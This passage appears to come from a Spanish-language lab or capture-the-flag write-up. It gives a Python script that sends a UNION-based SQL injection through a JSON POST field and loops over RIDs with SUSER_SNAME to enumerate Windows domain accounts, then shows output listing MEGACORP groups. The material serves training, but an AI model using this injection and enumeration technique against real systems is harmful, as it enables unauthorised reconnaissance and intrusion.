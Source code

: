 ```python
    data_post = '{"name": "%s"}' % sqlmodified
    
    
    r = requests.post(main_url, headers=headers, data=data_post)

    data_json = json.loads(r.text)

    return (json.dumps(data_json,indent=4))

#obtebemos el RID en el formato adecuado
def getRID(i):
    cadena = hex(i).replace("x","")
    lista = []
    for caracter in cadena:
        lista.append(caracter)
    rid = lista[2] + lista[3] + lista[0] +lista[1] + "0000"

    return rid

if __name__ == '__main__':

#establecemos un rango que casi siempre corresponden a los usuarios
    for i in range(1100, 1200):
        rid = getRID(i)
        sqli = "ttest' union select 1,(select SUSER_SNAME(%s%s)),3,4,5-- -" % (sid, rid)
        sqlmodified = recivesql(sqli)
        response_json = sendsql(sqlmodified)

        print(response_json)
    
        time.sleep(2)
```

Una vez ejecutamos el script despues de un breve momento obtenemos nuevos usuarios.

```json
❯ python3 sql_inject.py
[
    {
        "id": 1,
        "name": "",
        "position": "3",
        "email": "4",
        "src": "5"
    }
]
[
    {
        "id": 1,
        "name": "MEGACORP\\DnsAdmins",
        "position": "3",
        "email": "4",
        "src": "5"
    }
]
[
    {
        "id": 1,
        "name": "MEGACORP\\DnsUpdateProxy",
        "position": "3",
        "email": "4",
        "src": "5"
    }
]
```